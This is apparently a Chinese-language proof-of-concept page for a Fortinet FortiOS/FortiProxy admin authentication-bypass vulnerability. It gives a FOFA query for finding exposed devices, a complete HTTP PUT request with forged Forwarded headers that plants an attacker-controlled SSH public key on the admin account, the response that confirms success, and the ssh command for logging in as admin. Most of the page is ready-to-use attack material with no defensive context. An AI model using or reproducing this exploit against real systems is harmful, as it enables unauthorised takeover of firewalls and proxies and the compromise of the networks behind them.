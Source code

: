 # Fortinet FortiOS admin 远程命令执行漏洞
## 资产收集
fofa：`title="FortiProxy"`
![](./img/login.png)
## POC
```html
PUT /api/v2/cmdb/system/admin/admin HTTP/2
Host:{Hostname}
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 407
Content-Type: application/json
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
User-Agent: Report Runner

{"ssh-public-key1": "\"ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEA03fxsQaPF5E4dG+VEt6L0eenZNRbxsvIs6K4e8NQfEwMQOduZdeK79SeJWjgYD9lvm9pyyX73uvZBa4bU/otAZiR+UxjTYVPDZrdOA4LLbnp4ItKxjnLYBk7DfqIvsP2UHydT8+ovznk37T45QavvHJRa6W11eP8dgKdiT049orOsGQ7e2M4+FnhouQQ4keBmoU5MCW4bv8CyUM4MVpQSZLG8wlT0osYvrlk+WFio4+ZDvamfVV0xzXmqhODUp5oCgfe2TXf3GUE36cvIix046R81kA8ZrreQSp5mHladf2QFdWAfXNelPKdT+I6sl39RkUzGdyE/2yErH2T8mFIPQ==\""}
```
返回`SSH key is good.`证明写入成功
![](./img/poc.png)  
通过admin用户使用公钥连接：`ssh -i id_rsa admin@x.x.x.x`
